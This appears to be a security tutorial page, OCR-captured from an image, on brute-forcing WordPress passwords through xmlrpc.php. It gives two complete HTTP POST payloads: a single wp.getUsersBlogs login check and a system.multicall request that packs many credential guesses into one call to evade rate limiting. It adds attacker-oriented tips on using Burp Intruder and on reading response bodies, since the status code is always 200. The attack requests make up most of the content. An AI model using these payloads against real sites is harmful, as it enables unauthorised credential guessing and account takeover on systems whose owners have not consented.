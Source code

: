 ![XML RPC DDOS attack, port scanning, xmlrpc.php, wordpress](/uploads/Screenshot from 2019-07-02 01-03-07.png)

## Brute force attacks

Sometimes the only way to bypass request limiting or blocking in a brute force attack against WordPress site is to use the all too forgotten **XML-RPC API**. 

The following request represents the most common brute force attack:

```html
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 235

<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>\{\{your username\}\}</value></param> 
<param><value>\{\{your password\}\}</value></param> 
</params> 
</methodCall>
```
The above request can be sent in Burp Intruder (for example) with different sets of credentials. Note that, even if you guess the password or not, **the response code will always be 200**. I highly recommend looking for errors/messages within the body of the response.

**Worried about sending way to much requests against the target?** - No worries. WordPress XML-RPC by default allows an attacker to perform a single request, and brute force hundreds of passwords. 

The following request requires permissions for both **system.multicall** and  **wp.getUsersBlogs** methods:

```html
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 1560

<?xml version="1.0"?>
<methodCall><methodName>system.multicall</methodName><params><param><value><array><data>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

</data></array></value></param></params></methodCall>
```
